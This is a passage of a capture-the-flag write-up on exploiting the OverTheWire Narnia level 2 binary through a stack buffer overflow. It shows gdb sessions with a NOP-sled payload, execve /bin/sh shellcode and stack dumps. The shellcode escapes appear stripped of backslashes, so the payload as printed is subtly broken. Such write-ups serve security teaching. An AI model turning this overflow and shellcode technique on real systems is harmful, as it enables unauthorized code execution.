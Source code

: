 The return address points to 0xffffcf98 which is an address within the boundary of the NOP sled. Therefore, this payload should go past each NOP bytes as it eventually gets to the shellcode.

{% highlight bash %}
pwndbg> r $(python -c "print 'A'*132 +'x98xcfxffxff'+'x90'*30 +'x31xc0x50x68x2fx2fx73x68x68x2fx62x69x6ex89xe3x50x53x89xe1xb0x0bxcdx80'")          
Starting program: /home/0xd4y/business/other/overthewire/narnia/2/narnia2 $(python -c "print 'A'*132 +'x98xcfxffxff'+'x90'*30 +'x31xc0x50x68x2fx2fx73x68x68x2fx62x69x6ex89xe3x50x53x89xe1xb0x0bxcdx80'")  
process 5966 is executing new program: /usr/bin/dash  
$ whoami  
[Attaching after process 5966 fork to child process 5974]  
[New inferior 2 (process 5974)]  
[Detaching after fork from parent process 5966]  
[Inferior 1 (process 5966) detached]  
process 5974 is executing new program: /usr/bin/whoami  
0xd4y
{% endhighlight %}

Seeing as the program successfully executed the shellcode, we can now try this same payload ( with the modification of the return address) on the target machine.

#### Exploiting the Binary on the Target

After logging into the narnia2 user and running the same payload within gdb we see the following:

{% highlight bash %}
narnia2@narnia:/narnia$ gdb ./narnia2 -q                                                                                                                             [37/634]  
Reading symbols from ./narnia2...(no debugging symbols found)...done.  
(gdb) r $(python -c "print 'A'*132 +'x98xcfxffxff'+'x90'*30 +'x31xc0x50x68x2fx2fx73x68x68x2fx62x69x6ex89xe3x50x53x89xe1xb0x0bxcdx80'")            
Starting program: /narnia/narnia2 $(python -c "print 'A'*132 +'x98xcfxffxff'+'x90'*30 +'x31xc0x50x68x2fx2fx73x68x68x2fx62x69x6ex89xe3x50x53x89xe1xb0  
x0bxcdx80'")  
  
Program received signal SIGSEGV, Segmentation fault.  
0xffffcf98 in ?? ()  
(gdb) x/100x $esp-200  
0xffffd448:     0xf7e53f7b      0x00000000      0x00000002      0xf7fc5000  
0xffffd458:     0xffffd508      0xf7e5b7f6      0xf7fc5d60      0x08048534  
0xffffd468:     0xffffd488      0xf7e5b7d0      0xffffd488      0xf7ffd920  
0xffffd478:     0xf7e5b7d5      0x08048494      0x08048534      0xffffd488  
0xffffd488:     0x41414141      0x41414141      0x41414141      0x41414141  
0xffffd498:     0x41414141      0x41414141      0x41414141      0x41414141  
0xffffd4a8:     0x41414141      0x41414141      0x41414141      0x41414141  
0xffffd4b8:     0x41414141      0x41414141      0x41414141      0x41414141  
0xffffd4c8:     0x41414141      0x41414141      0x41414141      0x41414141  
0xffffd4d8:     0x41414141      0x41414141      0x41414141      0x41414141  
0xffffd4e8:     0x41414141      0x41414141      0x41414141      0x41414141  
0xffffd4f8:     0x41414141      0x41414141      0x41414141      0x41414141  
0xffffd508:     0x41414141      0xffffcf98      0x90909090      0x90909090  
0xffffd518:     0x90909090      0x90909090      0x90909090      0x90909090  
0xffffd528:     0x90909090      0xc0319090      0x2f2f6850      0x2f686873  
0xffffd538:     0x896e6962      0x895350e3      0xcd0bb0e1      0xfe790080  
0xffffd548:     0xc497b545      0x00000000      0x00000000      0x00000000
{% endhighlight %}
